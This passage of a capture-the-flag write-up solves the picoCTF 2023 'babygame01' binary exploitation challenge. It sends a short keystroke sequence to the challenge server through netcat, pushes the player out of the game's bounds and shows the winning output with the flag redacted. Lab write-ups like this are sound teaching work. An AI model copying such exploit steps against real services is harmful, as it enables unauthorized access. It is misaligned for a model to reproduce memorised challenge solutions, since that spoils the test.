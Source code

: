 To summarize, our "exploit" consists of
 * 4 * 'w' for 4 upwards moves
 * 8 * 'a' for 8 moves to the left and then
 * 'p' to move to the X

### Get the flag

Finally, lets send our tiny exploit to the server to get the flag
```
┌──(kali㉿kali)-[/picoCTF/picoCTF_2023/Binary_Exploitation/babygame01]
└─$ python -c "print('w'*4 + 'a'*8 + 'p')" | nc saturn.picoctf.net 60968

<--- snip --->

Player position: 29 89
Player has flag: 46
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
.........................................................................................@
You win!
flage
picoCTF{<REDACTED>}
```
